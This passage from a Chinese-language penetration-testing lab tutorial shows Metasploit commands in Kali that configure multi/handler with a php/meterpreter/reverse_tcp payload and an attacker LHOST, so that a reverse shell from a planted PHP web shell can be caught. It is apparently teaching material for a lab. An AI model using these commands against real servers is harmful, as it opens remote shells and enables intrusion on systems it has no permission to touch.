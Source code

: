 
![图片描述](../imgs/1480994046645.png-wm_1.png)

### 4.4 使用 Metasploit 创建 WebShell

在上诉步骤成功之后，接着在 Kali 中打开 MSF 终端：

```
# 在 Kali 终端中打开 MSF 终端
msfconsole
```

![图片描述](../imgs/1534153209559.png-wm.png)

分别输入如下命令：

```
# 使用相应模块
use multi/handler

set payload php/meterpreter/reverse_tcp

# 查看所需要填写的参数
show options

# 设置攻击者的主机参数
set LHOST 192.168.122.101
```
